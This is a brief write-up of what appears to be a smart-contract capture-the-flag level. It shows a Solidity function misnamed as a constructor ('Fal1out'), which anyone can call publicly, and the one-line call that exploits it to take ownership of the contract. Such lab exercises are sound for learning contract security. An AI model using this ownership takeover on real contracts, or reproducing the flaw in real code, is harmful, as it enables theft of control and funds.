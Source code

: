 tx id: `0xd727cc9744f4afff4842db3831540a24c618fec5879576fa924e7a83f0ae242b`

# claim ownership of the contract

no ownership transfers (`owner = msg.sender;`) like in level 1 except in constructoor:

```
 /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

just `await contract.Fal1out()` to claim ownership
